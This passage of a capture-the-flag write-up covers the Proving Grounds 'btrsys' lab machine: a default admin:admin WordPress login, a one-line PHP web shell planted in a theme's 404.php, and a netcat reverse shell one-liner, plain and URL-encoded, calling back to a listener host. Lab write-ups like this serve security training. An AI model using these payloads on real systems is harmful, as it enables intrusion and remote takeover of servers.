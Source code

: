 _/robots.txt_

![robots](../../../assets/images/ctfs/proving_grounds/btrsys/robots.png)

_/upload_

![lepton](../../../assets/images/ctfs/proving_grounds/btrsys/lepton.png)

Attempted _admin:admin_ on the _/wordpress/wp-admin_ login and logged in.

![admin](../../../assets/images/ctfs/proving_grounds/btrsys/admin.png)

The _Twentyfourteen_ theme is available to exploit.

![twenty](../../../assets/images/ctfs/proving_grounds/btrsys/twenty.png)

# Exploitation

---

## Exploit Wordpress Theme

Place the following in the \*404.php\_ file.

```bash
<?php echo system($_REQUEST["cmd"]); ?>
```

![404](../../../assets/images/ctfs/proving_grounds/btrsys/404.png)

Verify that the PHP web shell is executing commands.

![cmd](../../../assets/images/ctfs/proving_grounds/btrsys/cmd.png)

Use _revshellgen_ to execute a reverse shell one-liner via the PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/btrsys]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Execute the URL encoded payload in the PHP web shell and receive a reverse shell in our netcat listener.
